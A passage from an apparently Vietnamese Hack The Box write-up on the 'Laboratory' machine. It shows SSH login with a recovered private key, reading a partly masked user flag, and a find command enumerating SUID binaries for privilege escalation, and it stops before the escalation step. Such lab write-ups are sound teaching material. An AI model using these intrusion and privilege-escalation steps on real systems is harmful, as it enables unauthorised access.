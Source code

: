 ![15](https://coldfusionx.github.io/assets/img/Posts/Laboratory/ssh.png)

Sử dụng khóa này, chúng ta có thể SSH dưới dạng dexter:

```powershell
cfx:  ~/Documents/htb/laboratory
→ ssh -i id_rsa dexter@10.10.10.216
dexter@laboratory:~$ id
uid=1000(dexter) gid=1000(dexter) groups=1000(dexter)
dexter@laboratory:~$ whoami
dexter
```

Lấy `user.txt`:

```powershell
dexter@laboratory:~$ cat user.txt
7c447991fdff874*****************
```

## PrivEsc dexter -> root

## Enumeration

Tìm kiếm mã nhị phân `SUID`, chúng tôi tìm thấy một trong `/usr/local/bin/`

> `usr/local/bin` là vị trí cho tất cả các tệp thi hành bổ trợ mà bạn thêm vào hệ thống sẽ được tất cả người dùng sử dụng làm tệp hệ thống chung nhưng không phải là tệp chính thức được HĐH hỗ trợ

```powershell
dexter@laboratory:~$ find / -perm -u=s -type f 2>/dev/null | grep -v 'snap' | xargs ls -la
-rwsr-sr-x 1 daemon daemon      55560 Nov 12  2018 /usr/bin/at
-rwsr-xr-x 1 root   root        85064 May 28  2020 /usr/bin/chfn
-rwsr-xr-x 1 root   root        53040 May 28  2020 /usr/bin/chsh
-rwsr-xr-x 1 root   root        39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root   root        88464 May 28  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root   root        55528 Apr  2  2020 /usr/bin/mount
-rwsr-xr-x 1 root   root        44784 May 28  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root   root        68208 May 28  2020 /usr/bin/passwd
-rwsr-xr-x 1 root   root        31032 Aug 16  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root   root        67816 Apr  2  2020 /usr/bin/su
-rwsr-xr-x 1 root   root       166056 Jan 19 14:21 /usr/bin/sudo
-rwsr-xr-x 1 root   root        39144 Apr  2  2020 /usr/bin/umount
-rwsr-xr-- 1 root   messagebus  51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root   root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root   root       473576 May 29  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root   root        22840 Aug 16  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root   dexter      16720 Aug 28  2020 /usr/local/bin/docker-security
```

> /usr/local/bin/docker-security có vẻ là thứ đã được đề cập trong todo.txt nên có lẽ đây là mục tiêu tiếp theo của tác giả

Nhưng khi chạy nó không có gì xảy ra:
